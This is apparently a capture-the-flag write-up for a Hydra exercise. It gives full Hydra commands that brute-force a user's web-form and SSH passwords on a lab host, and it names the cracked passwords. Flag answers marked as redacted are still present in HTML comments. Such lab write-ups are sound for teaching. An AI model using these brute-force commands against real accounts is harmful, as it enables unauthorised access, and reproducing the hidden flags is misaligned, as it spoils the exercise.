


> # Hydra

# Summrary

## 
1. Use Hydra to bruteforce molly's web password. What is flag 1? 
    Run the following command `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.62.241 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"`, I have tried login on browser first, when we attemped failed login the website return string `incorrect`. 
     
    The molly's web password is `sunshine`. Login on browser to retrieve the flag. 
     
    <!-- THM{2673a7dd116de68e85c48ec0b1f2612e} -->
    **Answer:** THM{\<redacted>}

1. Use Hydra to bruteforce molly's SSH password. What is flag 2? 
    Run the following command `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.62.241 -t 4 ssh`, the molly's ssh password is `butterfly`, use this cred to login via SSH then cat the flag file. 
     
    <!-- THM{c8eeb0468febbadea859baeb33b2541b} -->
    **Answer:** THM{\<redacted>}
